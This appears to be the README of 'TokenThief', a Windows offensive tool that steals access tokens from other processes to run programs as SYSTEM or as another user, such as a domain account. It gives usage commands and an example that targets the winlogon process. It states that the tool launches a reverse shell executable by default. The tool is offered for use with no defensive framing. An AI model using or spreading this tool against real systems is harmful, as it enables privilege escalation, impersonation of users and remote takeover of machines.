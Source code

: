 # TokenThief

A tool to steal access tokens from other running processes on Windows and run an executable on a different security context. It can mainly be used to escalate privileges from admin to SYSTEM account, or impersonate any other user withing the system running a process (e.g. a domain account).
 
The tool is required SeDebugPrivilege to be executed, therefore an elevated prompt will be required.
 
## Usage
 
 .\TokenThief.exe <PID of the targer process>
 
The tool is executing a "C:\temp\shell.exe" reverse shell by default. The "command" can be changed in the source code to execute any other binary file. 
 
 
 ## Example
Getting the PID of a SYSTEM level process first, such as winlogon, and the tool will execute the shell.exe file with SYSTEM privileges.
```
PS> Get-Process winlogon
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    274      12     2716      11480       0.25    996   1 winlogon

PS> .\TokenThief.exe 996
Process successfully created...
```
